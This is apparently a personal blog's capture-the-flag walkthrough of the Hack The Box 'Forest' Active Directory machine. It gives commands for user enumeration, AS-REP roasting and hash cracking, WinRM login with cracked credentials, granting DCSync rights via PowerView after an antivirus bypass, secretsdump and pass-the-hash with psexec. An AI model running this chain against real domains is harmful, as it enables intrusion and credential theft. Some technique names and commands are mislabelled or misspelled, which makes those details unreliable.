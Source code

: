 ```yaml
---
title: 'HTB - Forest'
author: paincakes
date: 2023-03-16 20:55:00 +0800
categories: [HTB, Easy]
tags: [AD, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Forest/Info.png)
## NMAP Scanning

Let’s start with scanning the IP with NMAP to enumerate open ports and the services running on the host.

![NMAP](https://paincakes.sirv.com/Images/HTB/Forest/nmap.png)

Looking at the nmap result, we can clearly see that this an Active Directory challenge. Before starting any further enumeration or analysis, don't forget to add '10.10.14.10 htb.local' on your hosts file. (/etc/hosts).



## Username Enumeration
Simply scanning the Host with `enum4linux` tool, I was able to obtain a list of users in the AD Network.

`enum4linux -a htb.local` 

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/enum4linux.png)
![Forest](https://paincakes.sirv.com/Images/HTB/Forest/users.png)

After obtaining the list of usernames, I filtered out the **HealthMailBox** and **SM** users for now and formatted the list in sprayable format.

![enum4linux](https://paincakes.sirv.com/Images/HTB/Forest/finalusers.png)

## Kerberoasting
Some users account does not require Kerberos pre-authentication and Kerberoasting is an attack against Kerberos for those accounts. For this attack we can use impacket’s `GetNPUuers.py` tool against the user list we just made.

`GetNPUsers.py <domain>/ -no-pass -userfile <usersfile> -dc-ip <ip> | grep -v
‘KDC_ERR_C_PRINCIPAL_UNKNOWN’`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/preauthdis.png)

From the Kerberoasting attack we were able to obtain the TGT for **svc-alfresco** user. Now we can save the TGT and crack it using `hashcat` to obtain the password.

`hashcat -m 18200 <hashfile> <wordlist>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/hashcataes.png)

After a while, `hashcat` will crack the password for **svc-alfresco** user.

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/crackedaes.png)

Now we have obtained the credentials for svc-alfresco user. (svc-alfresco : s3rvice)

## Evil-WinRM

Now since we have the complete credentials of svc-alfresco user, we can login to winrm service using `evil-winrm tool`.

`evil-winrm -u ‘svc-alfresco’ -p ‘s3rvice’ -i <ip>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/evil-winrm.png)

We can find the root flag in the Desktop directory of this user.

## Privilege Escalation

### Using BloodHound
We can use `bloodhound-python` tool to collect the data and information for `BloodHound` tool for analyzing the misconfigurations in permissions of accounts in the Active Directory. The extracted data can be uploaded in `BloodHound`. Learn more about the Tool from [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound).

After uploading the data and under “Queries”, I’ll click “Find Shorter Paths to Domain Admin”, and get the following graph:

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/bloodhound.png)

From the graph we can see that there are two jumps needed to get from my current access as **svc-alfresco** to **Adminsitrator**, who is in the Domain Admins group. One of the paths shows that the **Exchange Windows Permissions** group has **WriteDacl** privileges on the Domain. The **WriteDACL** privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them **DCSync** privileges.

### Exploiting The Excessive Privilege
 
```
net user <username> <password> /add /domain
net group “Exchange Windows Permission” <username> /add
net localgroup “Remote Management Users” <username> /add
```

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/netusers.png)

Now we need to use PowerView.ps1 and import it our current session. But before that we need to use Bypass-4MSI command to evade the AV and Defender.


![Forest](https://paincakes.sirv.com/Images/HTB/Forest/bypass.png)

### Using PowerView

Upload the `PowerView.ps1` script using the upload function in `evil-winrm` and Import it on the session. The script can be downloaded from [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

After importing the PowerView.ps1 script, we can now use the Add-ObjectACL with the user we created and give the user DCSync rights.

```
$pass = convertto-securestring ‘<password>’ -asplain -force
$cred
=
new-object
system.management.automation.pscredential(‘htb\<username>’,
$pass)
Add-ObejctACL -PrincipalIdentity <username> $cred -Rights DCSync
```

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/DCSync.png)

### Using Secretsdump
Now we gave our user the DCSync right, we can use the impacket’s secretsdump.py script as that user, which can used to will reveal the NTLM hashes for all the domain users and also the administrator.

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/DCSync.png)

Since the NTLM hash of the **Administrator** user is revealed, we can crack it to obtain the password or simply use **pass-the-hash** method using `psexec` to get the shell as admin user.

`Python psexec.py administrator@<ip> -hashes <hash>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/root.png)

